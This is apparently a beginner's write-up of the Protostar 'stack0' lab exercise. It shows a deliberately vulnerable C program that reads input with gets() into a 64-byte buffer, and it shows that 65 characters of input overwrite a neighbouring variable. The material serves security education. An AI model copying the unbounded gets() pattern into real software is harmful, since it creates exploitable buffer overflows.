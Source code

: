 # Stack 0
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
- so ssh in
`ssh user@192.168.0.102`
- go to the dir with the executables
`cd /opt/protostar/bin`
- and execute the first
`./stack0`

**It needs an input**
And we can see in the source the max is `64` *characters*.

## Fuzzin it

So we enter 64 `A` and see what happens( protip: open python and type `print 'A'*64` ).
- We got `Try again?`
Now enter 65!
- We got `you have changed the 'modified' variable`.
***OH boiiii we got it (:***

